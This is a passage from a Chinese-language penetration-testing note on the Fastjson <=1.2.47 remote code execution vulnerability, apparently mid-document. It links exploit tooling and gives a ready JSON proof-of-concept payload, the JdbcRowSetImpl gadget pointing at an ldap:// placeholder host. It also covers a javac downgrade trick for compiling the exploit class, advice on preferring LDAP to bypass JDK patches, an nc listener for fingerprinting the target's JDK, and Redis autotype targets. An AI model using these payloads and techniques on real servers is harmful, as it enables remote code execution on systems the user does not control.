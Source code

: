 **4\. Fofa Dork**

**5\. 漏洞分析**

Fastjson <=1.2.47 远程代码执行漏洞分析 – 安全客, 安全资讯平台  
[https://www.anquanke.com/post/id/181874](https://www.anquanke.com/post/id/181874)

**6\. 漏洞利用**

1.JDK 降级编译

CaijiOrz/fastjson-1.2.47-RCE: Fastjson <= 1.2.47 远程命令执行漏洞利用工具及方法  
[https://github.com/CaijiOrz/fastjson-1.2.47-RCE](https://github.com/CaijiOrz/fastjson-1.2.47-RCE)

源项目中最后一句

> 当 javac 版本和目标服务器差太多, 会报一个这样得到错误, 所以需要使用 1.8 的 javac 来编译 Exploit.java

这里并不需要更换 jdk 版本, 我们可以使用 JDK 降级编译的手法, 这样 1.8 的 jdk 也可以编译出来 1.7 版本的`.class` , 相信可以解决很多小伙伴的问题

`javac -source 1.7 -target 1.7 Exploit.java`

1.2.47 版本以下通杀 Poc:

`{"name":{"@type":"java.lang.Class", "val":"com.sun.rowset.JdbcRowSetImpl"}, "f":{"@type":"com.sun.rowset.JdbcRowSetImpl", "dataSourceName":"ldap://asdfasfd/", "autoCommit":true}}, age:11}`

其中`{"@type":"com.sun.rowset.JdbcRowSetImpl", "dataSourceName":"ldap://asdfasfd/", "autoCommit":true}`也可以替换成其他利用链

2\. 优先使用 LDAP 协议

根据实战中经验, 这里更推荐使用 ldap 协议进行漏洞利用, 原因如下

> RMI 协议的利用方式 在`JDK 6u132/7u122/8u113` 及以上版本中修复了  
> LDAP 协议的利用方式 在`JDK 6u211/7u201/8u191` 及以上版本中修复了

所以, LDAP 的利用方式要优于 RMI, 且 LDAP 可以直接返回序列化对象, 绕过更高版本的 JDK 限制

如何绕过高版本 JDK 的限制进行 JNDI 注入 – FreeBuf 专栏 · 安全引擎  
[https://www.freebuf.com/column/207439.html](https://www.freebuf.com/column/207439.html)

**7\. 利用技巧**

1\. 如何查看服务器的 jdk 版本呢, 这里也有个小技巧

`nc -lvvp 80#[marshalsec中指定的HTTP端口]`

当服务器连接过来时, `User-Agent`中会标明当前服务器的 JDK 版本

2\. 当发现一台 Redis 的数据中有 @type 字样时, 意味着 autotype 大概率是开的, 只要不存在黑名单中的利用链都可以用 #\[同理可以用在 jackson 上\]

fastjson/GenericFastJsonRedisSerializer.java at master · alibaba/fastjson  
[https://github.com/alibaba/fastjson/blob/master/src/main/java/com/alibaba/fastjson/support/spring/GenericFastJsonRedisSerializer.java](https://github.com/alibaba/fastjson/blob/master/src/main/java/com/alibaba/fastjson/support/spring/GenericFastJsonRedisSerializer.java)

```
public class GenericFastJsonRedisSerializer implements RedisSerializer<Object> {
private final static ParserConfig defaultRedisConfig = new ParserConfig();
static { defaultRedisConfig.setAutoTypeSupport(true);}


```
